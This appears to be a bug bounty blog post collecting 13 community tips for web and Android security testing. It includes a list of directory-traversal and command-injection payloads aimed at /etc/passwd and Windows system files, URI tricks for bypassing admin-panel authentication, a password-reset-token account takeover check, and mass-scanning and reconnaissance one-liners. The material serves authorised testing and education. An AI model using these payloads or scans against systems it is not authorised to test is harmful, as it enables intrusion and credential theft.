








# Bug Bounty Tips #6

This is another dose of [bug bounty tips](https://www.infosecmatter.com/bug-bounty-tips/) from the bug hunting community on Twitter, sharing knowledge for all of us to help us find more vulnerabilities and collect bug bounties.

This is the 6th part and in each part we are publishing 10 or more tips. Here we go..

## 1\. Open arbitrary URL in Android app

By [@mem3hack](https://twitter.com/mem3hack)  
Source: [l](https://twitter.com/mem3hack/status/1294701158565634048)[ink](https://twitter.com/mem3hack/status/1294701158565634048)

Looking for an easy way to open arbitrary URLs in Android apps?

1.  Download jadx decompiler and install adb
2.  Open AndroidManifest.xml
3.  Find all browser activities (must contain `<category andoid:name="android.intent.category.BROWSABLE"/>`)
4.  Run “`adb shell am start -n app_package_name/component_name -a android.intent.action.VIEW -d google.com`” for each of the activities (or any of your domains). Also track in Burp any requests to google.com or your domain.
5.  If a domain is opened, it means you found a vulnerability! Now inspect the request if it contains any auth tokens (if yes, it means you’ve got an account takeover!). No? Try different techniques to obtain any PII. In the worst case you will get a reward like for an XSS if you can just open arbitrary links in an app.

Note that instead of jadx decompiler, we could use the apktool, which has better abilities of decoding AndroidManifest.xml file from an APK.

If you are using Kali Linux, the easiest way of getting all the necessary programs is by using apt:

```bash
apt-get -y install adb jadx apktool
```

## 2\. Directory traversal payloads for easy wins

By [@manas\_hunter](https://twitter.com/manas_hunter)  
Source: [link](https://twitter.com/manas_hunter/status/1296713631711674368)

Here’s an interesting list of 7 uncommon directory traversal payloads that can land some easy wins:

1.  `\..\WINDOWS\win.ini`
2.  `..%5c..%5c../winnt/system32/cmd.exe?/c+dir+c:\`
3.  `.?\.?\.?\etc\passwd`
4.  `../../boot.ini`
5.  `%0a/bin/cat%20/etc/passwd`
6.  `\\&apos;/bin/cat%20/etc/passwd\\&apos;`
7.  `..%c1%afetc%c1%afpasswd`

This list contains payloads for both Windows and UNIX-based operating systems. With payload number 2, 5 and 6 we can even find RCE (remote code/command execution) vulnerability!

## 3\. Find open redirect vulnerabilities with gf

By [@ofjaaah](https://twitter.com/ofjaaah)  
Source: [link](https://twitter.com/ofjaaah/status/1300551182843346951)

Here’s a cool one-liner to help find open redirect vulnerabilities. All you need is to provide the target domain name:

```bash
echo "http://tesla.com" | waybackurls | httpx -silent -timeout 2 -threads 100 | gf redirect | anew
```

This is what the command does in detail:

1.  Collect all URLs of the target domain from the [Wayback Machine](https://archive.org/)
2.  Attempt to download all the URLs quickly in 100 parallel threads in order to identify working URLs
3.  For all working URLs, match any potentially vulnerable parameters to open redirect
4.  Print out only unique, potentially vulnerable URLs



In order for this combo to work, we have to install the following tools, very useful not just for bug bounty hunting:

-   [https://github.com/tomnomnom/waybackurls](https://github.com/tomnomnom/waybackurls)
-   [https://github.com/projectdiscovery/httpx](https://github.com/projectdiscovery/httpx)
-   [https://github.com/tomnomnom/gf](https://github.com/tomnomnom/gf)
-   [https://github.com/1ndianl33t/Gf-Patterns](https://github.com/1ndianl33t/Gf-Patterns) (redirect gf patterns)
-   [https://github.com/tomnomnom/anew](https://github.com/tomnomnom/anew)

## 4\. Find out what websites are built with

By [@akita\_zen](https://twitter.com/akita_zen)  
Source: [link](https://twitter.com/akita_zen/status/1296623023731212298)

This is another really cool one-liner. This one can help identify what technology a particular website (or a list of websites) was built with.

It uses the [Wappalyzer](https://www.wappalyzer.com/) API and all you need to provide is a list of URLs like this:

```bash
cat urls-alive.txt | parallel -j 50 "echo {}; python3 main.py analyze --url {}"
```

The command will spawn 50 parallel instances to process all provided URLs in a quick fashion and give us results as fast as possible:



Pretty neat and informative!

Note that in order for this to work, we have to install the parallel utility and the wappylyzer:

```bash
apt-get -y install parallel

git clone https://github.com/vincd/wappylyzer.git
cd wappylyzer
virtualenv venv
source venv/bin/activate
pip install -r requirements.txt
```

## 5\. Scanning at scale with Axiom

By [@stokfredrik](https://twitter.com/stokfredrik)  
Source: [link](https://twitter.com/stokfredrik/status/1296745499505164289)

Do you know the tool [Axiom](https://github.com/pry0cc/axiom) made by [@pry0cc](https://twitter.com/pry0cc)? Axiom is a dynamic infrastructure toolkit for red teamers and bug bounty hunters written in shell.

Here’s a bug bounty tip demonstrating what can you do with it, as an example.

```bash
#!/bin/bash
# Spin up 15 droplets, use the IPs provided, split and upload it to the
# fleet, run massscan, sort, then nmap valid targets. When done, scp
# download files from droplets, generate report and delete the fleet.

axiom-fleet -i=15 -t=2
axiom-scan "uber*" --rate=10000 -p443 --banners -iL=uberips.txt -o=massscanuber.txt
cat massscanuber.txt | awk '{print $2}' | sort -u >>uberalive.txt
axiom-scan "uber*" -iL=uberalive.txt -p443 -sV -sC -T4 -m=nmapx -o=output
axiom-rm "uber*" -f
```

In order for Axiom to work, you have to have a [DigitalOcean API Key](https://m.do.co/c/ed3b0077914c) (referral link).

What is DigitalOcean?

DigitalOcean is a cloud platform allowing you to quickly spin up virtual machines, Kubernetes clusters, databases, storages and other things. It is used by Axiom to quickly deploy infrastructure, as per your needs.

With Axiom you can scale out pretty much any of your pentesting activities quickly and with minimal costs.

Get Axiom here:

-   [https://github.com/pry0cc/axiom](https://github.com/pry0cc/axiom)

## 6\. Trick to access admin panel by adding %20

By [@SalahHasoneh1](https://twitter.com/SalahHasoneh1)  
Source: [link](https://twitter.com/SalahHasoneh1/status/1296572143141031945)

Here’s a quick tip that can help access restricted areas by tampering with URI and adding extra spaces (%20):

-   target.com/admin –> HTTP 302 (redirect to login page)
-   target.com/admin%20/ -> HTTP 200 OK
-   target.com/%20admin%20/ -> HTTP 200 OK
-   target.com/admin%20/page -> HTTP 200 OK

The author was able to use this trick and find Broken Authentication and Session Management issue and access an admin panel in the target web application. The back-end web server was Apache HTTP server, but this can work elsewhere too.

**Protip**: Check also previously published tips very similar to this ([BBT4-5](https://www.infosecmatter.com/bug-bounty-tips-4-aug-03/#5-access-admin-panel-by-tampering-with-uri), [BBT4-6](https://www.infosecmatter.com/bug-bounty-tips-4-aug-03/#6-bypass-403-forbidden-by-tampering-with-uri)).

## 7\. Web servers on non-standard ports (Shodan)

By [@s0md3v](https://twitter.com/s0md3v)  
Source: [link](https://twitter.com/s0md3v/status/1296670379260469249)

Use the following query in [Shodan](https://www.shodan.io/) to find HTTP servers of a company that are running on “non-standard” ports:

```bash
HTTP ASN:<here> -port:80,443,8080
```

With this query we are looking for web servers running on ports other than 80, 443 or 8080.

What is the ASN part?

[ASN](https://www.infosecmatter.com/infosec-glossary/) stands for Autonomous System Number which is a globally unique number identifying a cluster of large publicly routable networks under control of a single entity (e.g. a network operator, CDN, large internet company etc.).

Big companies such as Facebook, Google and many others have assigned ASNs, even multiple ASNs for their large networks.

More information about ASNs can be found e.g. on [Wikipedia](https://en.wikipedia.org/wiki/Autonomous_system_(Internet)).

To lookup ASNs of a particular company, we can use [Amass](https://github.com/OWASP/Amass) like this:

```bash
amass intel -org "Netflix"
```



Amass usually finds all associated ASNs, but we can always dig for more, e.g. here:

-   [https://www.ultratools.com/tools/asnInfo](https://www.ultratools.com/tools/asnInfo)
-   [https://hackertarget.com/as-ip-lookup/](https://hackertarget.com/as-ip-lookup/)
-   [ftp://ftp.arin.net/info/asn.txt](ftp://ftp.arin.net/info/asn.tx)

To verify that you have correct ASNs, just use the whois tool to make sure that they really belong to your target:

```bash
whois AS2906
whois AS40027
...
```

## 8\. Fingerprinting with Shodan and Nuclei engine

By [@ofjaaah](https://twitter.com/ofjaaah)  
Source: [link](https://twitter.com/ofjaaah/status/1300456324359163905)

Here’s some powerful fingerprinting tip using [Shodan](https://www.shodan.io/) and [Nuclei](https://github.com/projectdiscovery/nuclei) scan engine:

```bash
shodan domain DOMAIN TO BOUNTY | awk '{print $3}' | httpx -silent | nuclei -t /home/ofjaaah/PENTESTER/nuclei-templates/
```

This is what the command does in detail:

1.  Fetch DNS data from Shodan for our target domain name
2.  Extract list of IP addresses and FQDNs (hostnames) from the DNS data
3.  HTTP download all of them
4.  Run Nuclei scanner on all found web servers

The Nuclei scanner provides very powerful fingerprinting capabilities and can even land you some easy wins by detecting misconfigurations, exposed admin panels, sensitive files, API keys and tokens, or even detect unpatched CVEs.



Here’s where to get all the stuff needed for this tip:

-   [https://github.com/achillean/shodan-python](https://github.com/achillean/shodan-python)
-   [https://github.com/projectdiscovery/nuclei](https://github.com/projectdiscovery/nuclei)
-   [https://github.com/projectdiscovery/nuclei-templates](https://github.com/projectdiscovery/nuclei-templates)
-   [https://github.com/projectdiscovery/httpx](https://github.com/projectdiscovery/httpx)

## 9\. Generate custom wordlist from any domain

By [@hakluke](https://twitter.com/hakluke)  
Source: [link](https://twitter.com/hakluke/status/1301487471704776705)

Do you need to generate a wordlist for your target? Here’s a cool one-liner to do it just by providing the target domain name:

```bash
# Mac OS
echo "bugcrowd.com" | subfinder -silent | hakrawler -plain -usewayback -scope yolo | sed $'s/[:./?=&#:]/\\\n/g' | anew

# Linux
echo "bugcrowd.com" | subfinder -silent | hakrawler -plain -usewayback -scope yolo | sed $'s/[./?=:&#]/\\\n/g' | anew
```

This is what the command does in detail:

1.  Find all subdomains of the target domain name
2.  Collect all URLs for the identified subdomains (+ other related links/URLs) from public sources
3.  Break down every URL/link into pieces to produce keywords
4.  Print out only unique keywords



**Protip**: Sometimes you might want to include additional characters to the sed command (e.g. a dash, underscore etc.) to break down the URLs even more and produce better keywords.

Here’s all that you need for this tip:

-   [https://github.com/projectdiscovery/subfinder](https://github.com/projectdiscovery/subfinder)
-   [https://github.com/hakluke/hakrawler](https://github.com/hakluke/hakrawler)
-   [https://github.com/tomnomnom/anew](https://github.com/tomnomnom/anew)

## 10\. Account takeover by reset token disclosure (Burp)

By [@hakluke](https://twitter.com/hakluke)  
Source: [link](https://twitter.com/hakluke/status/1300392121065594881)

Now this is a really cool tip to try when testing web apps:

1.  Set up Burp in browser1
2.  Do a password reset request in browser1
3.  Open the password reset email in browser2 (without Burp) and copy the token
4.  Search your Burp history (browser1) for the token. If it is there, you’ve got yourself a nice easy account takeover!

**Detailed explanation**: If you find the token in the browser1 session history, it means that sometimes during the password reset action the token was sent to the browser1.

So, this means that you don’t really need to read the email to reset the password! This means that you can request to reset any account and because the token is disclosed to you, you can reset the password without having access to the mailbox of the victim!

## 11\. Top 20+ Burp extensions for bug bounty hunting

By [@harshbothra\_](https://twitter.com/harshbothra_)  
Source: [link](https://twitter.com/harshbothra_/status/1299720306777415680)

Here’s a list of 24 Burp extensions useful for bug hunting collected by [@harshbothra\_](https://twitter.com/harshbothra_):

1.  Autorize – To test BACs (Broken Access Control)
2.  Burp Bounty – Profile-based scanner
3.  Active Scan++ – Add more power to Burp’s Active Scanner
4.  AuthMatrix – Authorization/PrivEsc checks
5.  Broken Link Hijacking – For BLH (Broken Link Hijacking)
6.  Collaborator Everywhere – Pingback/SSRF (Server-Side Request Forgery)
7.  Command Injection Attacker
8.  Content-Type Converter – Trying to bypass certain restrictions by changing Content-Type
9.  Decoder Improved – More decoder features
10.  Freddy – Deserialization
11.  Flow – Better HTTP history
12.  Hackvertor – Handy type conversion
13.  HTTP Request Smuggler
14.  Hunt – Potential vuln identifier
15.  InQL – GraphQL Introspection testing
16.  J2EE Scan – Scanning J2EE apps
17.  JSON/JS Beautifier
18.  JSON Web Token Attacker
19.  ParamMiner – Mine hidden parameters
20.  Reflected File Download Checker
21.  Reflected Parameter – Potential reflection
22.  SAML Raider – SAML testing
23.  Upload Scanner – File upload tester
24.  Web Cache Deception Scanner

All these extensions are available in the BApp Store under the Extender tab. Some of them are Pro extensions and require licensed Burp Suite. Some of them also require Jython to be installed.

Here’s how to install Jython in Burp:

1.  Download latest Jython Installer from [here](http://www.jython.org/download) and install it:  
    `java -jar jython-installer-2.7.2.jar`

1.  Provide paths to Burp:  
    Go to Extender tab -> Options sub-tab  
    -   In Java Environment section  
        Folder for loading library JAR files (optional): `/home/user/burp/addons`
    -   In Python Environment section  
        Location of Jython standalone JAR file: `/home/user/jython2.7.2/jython.jar`  
        Folder for loading modules (optional): `/home/user/burp/addons`



Now we should be able to install all of those 24 Burp extensions.

## 12\. Phpinfo() with sensitive information

By [@sw33tLie](https://twitter.com/sw33tLie)  
Source: [link](https://twitter.com/sw33tLie/status/1301982656519901190)

If you find a phpinfo(), don’t forget to take a look at it! Sometimes you can find juicy things such as environment variables containing secrets:



Sometimes you can also find database passwords and other sensitive information.

## 13\. Keep track of attack surface with Amass

By [@Jhaddix](https://twitter.com/Jhaddix)  
Source: [link](https://twitter.com/Jhaddix/status/1294312964942475266)

Here’s a useful tip on how to manage your target attack surface and keep track of new asset discoveries:

-   Run all your subdomain tools
-   Uniq them
-   Insert them into the amass database:

```bash
amass enum -d domain.com -nf domains.txt
```

Then, you can track new findings each day via:

```bash
amass track -d domain.com | grep "Found"
```



You could also setup a webhook to get notified via Slack and get things automated.

Get Amass here:

-   [https://github.com/OWASP/Amass](https://github.com/OWASP/Amass)

## Conclusion

That’s it for this part of the [bug bounty tips](https://www.infosecmatter.com/bug-bounty-tips/).

Big thanks to all the authors for sharing their tips:

-   [@mem3hack](https://twitter.com/mem3hack)
-   [@manas\_hunter](https://twitter.com/manas_hunter)
-   [@ofjaaah](https://twitter.com/ofjaaah)
-   [@akita\_zen](https://twitter.com/akita_zen)
-   [@stokfredrik](https://twitter.com/stokfredrik)
-   [@SalahHasoneh1](https://twitter.com/SalahHasoneh1)
-   [@s0md3v](https://twitter.com/s0md3v)
-   [@hakluke](https://twitter.com/hakluke)
-   [@harshbothra\_](https://twitter.com/harshbothra_)
-   [@sw33tLie](https://twitter.com/sw33tLie)
-   [@Jhaddix](https://twitter.com/Jhaddix)

Make sure to follow them on Twitter to stay ahead of the bug bounty game.
